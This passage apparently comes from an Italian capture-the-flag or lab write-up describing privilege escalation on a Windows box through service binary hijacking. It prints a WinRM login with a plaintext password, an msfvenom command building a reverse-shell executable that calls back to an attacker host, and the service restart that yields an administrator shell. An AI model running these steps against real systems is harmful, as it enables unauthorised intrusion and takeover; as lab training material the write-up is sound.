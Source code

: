 ```bash
evil-winrm -i 172.16.220.83 -u 'wario' -p "Mushroom\!"
```

Una volta dentro lancio winpeas e scopro un file eseguibile interessante nella cartella DevelopmentExecutables:

```bash
File Permissions "C:\DevelopmentExecutables\auditTracker.exe": Everyone [AllAccess],Authenticated Users [WriteData/CreateFiles]
```

Quindi provo ad eseguire un attacco di tipo Service Binary Hijacking.

Creo un eseguibile per ottenere una reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.212 LPORT=6666 -f exe -o auditTracker.exe 
```

Rinomino il file originale auditTracker.exe in ciao.exe e trasferisco l'eseguibile appena creato sulla macchina target.

Quindi, avvio un listener sulla porta 6666 della macchina kali e lancio il comando per stoppare il servizio e quello per riavviarlo sulla macchina target:

```bash
sc.exe stop audittracker

sc.exe start audittracker
```

Ottengo cosi una reverse-shell con privilegi da amministratore e il flag proof.txt.


